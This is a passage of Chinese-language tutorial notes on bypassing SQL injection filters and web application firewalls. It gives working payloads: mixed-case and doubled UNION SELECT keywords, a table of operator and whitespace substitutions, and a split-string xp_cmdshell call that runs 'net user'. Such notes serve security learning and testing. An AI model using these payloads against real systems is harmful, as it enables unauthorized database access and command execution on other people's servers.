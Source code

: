 #### (2). 方法

##### a. 大小写绕过

> 1. 只针对**小写或大写**的**关键字匹配技术**
> 2. **正则不完善**或是没有用**大小写转换函数**用法
>

```sql
-1' UnIon SelEct 1,2,3
```

##### b. 替换关键字



###### ①关键字双写

> **只验证一次**字符串或字符串**过滤不完整**用法

```sql
-1' ununionion seselectlect 1,2,3		'#可以构造更复杂的语句
```

###### ②同价词替换

> 针对**特殊关键字**进行检测

| 字符 | 替换                   |
| ---- | ---------------------- |
| and  | &&                     |
| or   | \|\|                   |
| =    | <>                     |
| 空格 | %20  (url编码)         |
| 空格 | %09  (tab键，水平)     |
| 空格 | **%0a  (换行符)**      |
| 空格 | %a0  (空格)            |
| 空格 | **%0b  (tab键，垂直)** |
| 空格 | %0c  (新的一页)        |
| 空格 | %0d  (return功能)      |
| 空格 | /**/                   |

###### ③特殊字符拼接

> **拼接特殊字符**来绕过WAF检测

```sql
id=1;exec(master..xp_cmdshell'net user')
=>  id=1;exec('maste'+'r..xp'+'_cmdshell'+'"net user"')
```
